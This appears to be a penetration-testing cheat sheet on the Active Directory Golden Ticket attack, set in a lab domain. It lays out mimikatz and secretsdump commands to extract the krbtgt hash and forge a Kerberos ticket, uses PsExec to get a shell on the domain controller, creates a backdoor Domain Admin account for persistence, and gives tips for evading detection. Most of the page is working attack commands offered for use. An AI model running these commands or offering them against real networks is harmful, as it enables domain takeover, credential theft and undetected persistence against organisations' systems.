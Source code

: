 ##### Golden Ticket Attack
Prerequisites:
- krbtgt account NTLM hash
- Domain SID
- Domain name
- Target username

```bash
# Using mimikatz
# Step 1: Get krbtgt hash and domain info
privilege::debug
lsadump::lsa /inject /name:krbtgt

# Step 2: Create golden ticket
kerberos::golden /User:Administrator /domain:marvel.local /sid:S-1-5-21-... /krbtgt:NTLM-hash-here /id:500 /ptt

# Step 3: Start new process with ticket
misc::cmd

# Test access
dir \\dc01\c$
PsExec64.exe \\dc01 cmd.exe
```

REQUIREMENTS GATHERING:
```bash
# Get Domain SID
whoami /user
# Look for SID format: S-1-5-21-...

# Get krbtgt hash using secretsdump
secretsdump.py domain/username:'password'@DC-IP | grep -i krbtgt
```

PERSISTENCE CHECKLIST:
1. Create backup admin account
   ```bash
   net user backupuser ComplexPass123! /add /domain
   net group "Domain Admins" backupuser /add /domain
   ```

2. Create golden ticket for long-term access
3. Document all created artifacts for cleanup

OPERATIONAL CONSIDERATIONS:
- Golden tickets persist until krbtgt password changes twice
- Highly privileged attack - can effectively own domain
- Activity may be logged and detected
- Consider operational security before using
- Clean up created accounts after testing
- Some EDR solutions may detect ticket creation
- Test access before relying on ticket for operations

DETECTION EVASION:
- Use legitimate admin account names
- Avoid excessive ticket creation
- Limit use to necessary operations
- Consider time of day for operations
- Use standard domain admin groups
